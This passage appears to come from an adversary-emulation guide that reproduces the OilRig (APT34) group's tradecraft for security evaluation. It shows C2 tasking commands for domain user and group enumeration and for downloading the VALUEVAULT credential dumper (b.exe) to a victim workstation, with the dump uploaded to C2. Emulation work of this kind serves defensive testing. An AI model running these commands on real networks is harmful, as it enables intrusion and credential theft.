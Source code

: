 Perform follow up discovery using gained information to determine gosta is a 
member of EWS Administrators, tous is a SQL administrator and the IP of 
WATERFALLS.

```bash
# OilRig has been observed to perform enumeration of users and groups.[3]

./evalsC2client.py --set-task goTb '101 net user gosta /domain 2>&1 & net group "SQL Admins" /domain 2>&1 & nslookup WATERFALLS 2>&1'
```

<br>

### :moyai: Source Code
*  SideTwist instruction parsing: [SideTwist.cpp#L65-L79](SideTwist.cpp#L65-L79)
*  SideTwist command execution: [SideTwist.cpp#L102-L114](SideTwist.cpp#L102-L114)

<br>

### :microscope: Cited Intelligence
*  SideTwist: https://research.checkpoint.com/2021/irans-apt34-returns-with-an-updated-arsenal/
*  VBA coding/macros: https://www.intezer.com/blog/malware-analysis/new-iranian-campaign-tailored-to-us-companies-uses-updated-toolset/  
*  Helminth campaigns/enumeration: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/
*  EWS admin/Exchange Trusted Subsystem discovery: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/

<br>


## Step 3 - Workstation Low Privilege Credential Dumping

### :microphone: Voice Track

Step 3 emulates OilRig using `SystemFailureReporter.exe` to download VALUEVAULT
(the executable for which is `b.exe`) which is then leveraged to perform a low 
privilege credential dumping. `SystemFailureReporter.exe` then uploads the 
VALUEVAULT dump (named `fsociety.dat`) back to C2 via HTTP POST request. 

The output of the credential dump provides a plaintext password for the current 
user `gosta`.

---

### :biohazard: Procedures

:arrow_right: On Linux Attack Platform  as `saka`, issue the command to download VALUEVAULT
to the workstation

```bash
./evalsC2client.py --set-task goTb '102 C:\Users\gosta\AppData\Roaming\b.exe|b.exe'
```

Issue the command to execute VALUEVAULT after it has been downloaded:

